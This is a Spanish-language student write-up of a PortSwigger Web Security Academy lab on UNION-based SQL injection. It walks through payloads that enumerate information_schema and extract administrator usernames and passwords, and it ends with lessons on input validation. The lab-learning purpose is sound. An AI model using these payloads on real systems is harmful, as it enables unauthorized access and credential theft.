




PortSwigger Web Security Academy
En este laboratorio se demuestra cómo enumerar el contenido de una base de datos cuando
no se tienen indicios previos. El objetivo es iniciar sesión como administrator extrayendo
su contraseña de bases de datos no Oracle.
Como no conocemos el esquema de la base de datos, usaremos el esquema predeterminado
information_schema para encontrar nombres de tablas y columnas iterativamente.
Pasos, Pruebas y Payloads
1. Listamos todas las tablas disponibles:
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--. Encontramos una tabla
parecida a users_abcdef.
2. Extraemos las columnas de esa tabla:
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--.
Obtenemos columnas como username_123 y password_456.
3. Finalmente, extraemos los datos de la tabla objetivo:
'+UNION+SELECT+username_123,+password_456+FROM+users_abcdef--.
Explicación
Las bases de datos ANSI compatibles exponen metadatos completos en
information_schema, lo cual es invaluable para que un atacante descubra la arquitectura
antes de extraer datos específicos que llevan un prefijo aleatorio.
Capturas de evidencia de los payloads ejecutados exitosamente en la aplicación de prueba.
Request interceptado en Burp Suite

Payload utilizado

Respuesta del servidor

Evidencia laboratorio completado

Este laboratorio me permitió entender la vulnerabilidad de inyección SQL en la cláusula WHERE de una consulta SQL.
Además, aprendí a identificar y explotar vulnerabilidades de inyección SQL mediante la inyección de payloads en parámetros de entrada.
También me ayudó a comprender la importancia de validar y sanitizar entradas de usuario para prevenir ataques de inyección SQL.
PortSwigger. (s.f.). SQL injection attack, listing the database contents on non-Oracle databases. Web Security Academy. Recuperado de https://portswigger.net/